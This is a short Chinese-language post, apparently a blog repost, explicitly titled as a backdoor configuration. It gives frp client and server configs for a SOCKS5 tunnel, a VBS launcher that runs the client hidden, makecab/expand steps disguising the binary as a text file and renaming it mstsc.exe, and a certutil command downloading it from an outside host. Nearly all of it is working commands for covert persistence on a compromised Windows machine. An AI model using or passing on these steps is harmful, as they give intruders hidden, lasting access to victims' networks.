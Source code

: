 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/-mo-/p/12539341.html)

后门文件配置：

```
#frpc.ini
\[common\]
server\_addr = \*.\*.\*.\*
server\_port = 7000
token = 123456

\[socks\_proxy\]
type = tcp
remote\_port =8888
plugin = socks5


```

```
#frps.ini
\[common\]
bind\_addr =0.0.0.0
bind\_port =7000
token = 123456


```

```
#frpc.bat
frpc.exe -c frpc.ini

#frpc.vbs
Set ws = CreateObject("Wscript.Shell")
ws.run "cmd /c frpc.bat",vbhide


```

压缩解压:  
减少文件体积，提高文件上传速度，这里为了方便直接可以使用 windows 自带的压缩解压工具:

```
#压缩
makecab frpc.exe frpc.txt

#解压
expand C:\\Users\\RabbitMask\\Desktop\\test\\frpc.txt C:\\Users\\RabbitMask\\Desktop\\test\\mstsc.exe
```

远程下载:

```
certutil -urlcache -split -f http://192.168.1.1/frpc.txt  1.txt
```